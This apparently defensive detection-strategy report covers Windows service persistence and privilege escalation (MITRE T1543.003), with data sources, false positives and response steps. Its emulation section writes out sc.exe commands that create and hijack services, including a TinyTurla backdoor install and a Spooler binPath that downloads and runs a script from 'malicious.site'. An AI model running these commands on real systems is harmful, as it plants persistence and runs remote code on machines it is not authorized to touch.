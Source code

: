 # Alerting & Detection Strategy (ADS) Report: MITRE ATT&CK T1543.003 - Windows Service

## Goal
This strategy aims to detect adversarial attempts to utilize Windows services as a mechanism for persistence and privilege escalation, specifically focusing on T1543.003 from the MITRE ATT&CK framework. It seeks to identify unauthorized modifications or creations of services that could be leveraged by adversaries to maintain access or escalate privileges within a network.

## Categorization
- **MITRE ATT&CK Mapping:** T1543.003 - Windows Service
- **Tactic / Kill Chain Phases:** Persistence, Privilege Escalation
- **Platforms:** Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1543/003)

## Strategy Abstract
The detection strategy utilizes event logs, file integrity monitoring (FIM), and behavioral analysis to identify suspicious activities related to Windows services. Key data sources include:
- Windows Event Logs (e.g., Service Control Manager events)
- System File Integrity Monitors
- Network traffic for anomalies

Patterns analyzed include unexpected service creations or modifications, especially those involving system directories or execution of unusual binaries like PowerShell scripts.

## Technical Context
Adversaries commonly use the `sc.exe` command to create new services or modify existing ones. This can be executed with elevated privileges to maintain persistence by scheduling regular task executions or using backdoors like TinyTurla (`w64time`). In real-world scenarios, adversaries may install malicious executables in system directories and configure them as Windows services.

### Adversary Emulation Details
- **Sample Commands:**
  - Create a new service:
    ```shell
    sc.exe create MaliciousService binPath= "C:\Windows\System32\svchost.exe" DisplayName= "Malicious Service"
    ```
  - Modify an existing service to run PowerShell:
    ```shell
    sc.exe config Faxsvc binPath= "C:\windows\system32\powershell.exe"
    ```

## Blind Spots and Assumptions
- **Limitations:** The strategy might not detect obfuscated scripts or services configured with delayed start-up times.
- **Assumptions:** It assumes that changes to system directories are suspicious, which may not account for legitimate software installations.

## False Positives
Potential benign activities that could trigger false alerts include:
- Legitimate system updates or patches modifying service configurations.
- IT operations creating or modifying services as part of maintenance tasks.
- Software installers adding custom services during installation.

## Priority
**Severity: High**
Justification: Unauthorized service modifications can lead to persistent access and privilege escalation, significantly impacting security posture. The potential damage from a successful exploit is substantial, making prompt detection critical.

## Validation (Adversary Emulation)
To emulate this technique in a test environment:

1. **Modify Fax Service to Run PowerShell:**
   - Open Command Prompt as Administrator.
   - Execute:
     ```shell
     sc.exe config Faxsvc binPath= "C:\windows\system32\powershell.exe"
     ```

2. **Service Installation Using CMD:**
   - Create a new service with `sc.exe`:
     ```shell
     sc.exe create TestService binPath= "C:\Windows\System32\notepad.exe" DisplayName= "Test Service"
     ```

3. **Service Installation Using PowerShell:**
   - Use PowerShell to install a service:
     ```powershell
     New-Service -Name "PowerShellService" -BinaryPathName "C:\Windows\System32\calc.exe"
     ```

4. **TinyTurla Backdoor Service (`w64time`):**
   - Install the backdoor as a service (ensure legality and consent):
     ```shell
     sc.exe create w64time binPath= "C:\path\to\tinyturla.exe" start= auto
     ```

5. **Remote Service Installation Using CMD:**
   - From a remote machine, execute:
     ```shell
     sc \\target_machine create RemoteService binPath= "C:\Windows\System32\calc.exe"
     ```

6. **Modify Service to Run Arbitrary Binary (PowerShell):**
   - Alter an existing service:
     ```shell
     sc.exe config Spooler binPath= "C:\windows\system32\powershell.exe -Command Invoke-Expression (New-Object Net.WebClient).DownloadString('http://malicious.site/script.ps1')"
     ```

## Response
When an alert is triggered, analysts should:

1. **Verify the Alert:** Confirm if a new service was created or modified.
2. **Investigate Intent:**
   - Examine the binary path and command line arguments for suspicious activity.
3. **Containment:**
   - Disable the suspect service immediately using:
     ```shell
     sc.exe stop MaliciousService
     sc.exe delete MaliciousService
     ```
4. **Root Cause Analysis:** Determine how the modification occurred, identifying potential security gaps or compromised accounts.

## Additional Resources
- **New Service Creation Using Sc.EXE**
- **Suspicious New Service Creation**
- **Potential Persistence Attempt Via Existing Service Tampering**
- **Suspicious Copy From or To System Directory**
- **New Service Creation Using PowerShell**
- **Suspicious Service Path Modification**

This report serves as a comprehensive guide for detecting and responding to unauthorized Windows service modifications, enhancing an organization's security posture against sophisticated threat actors.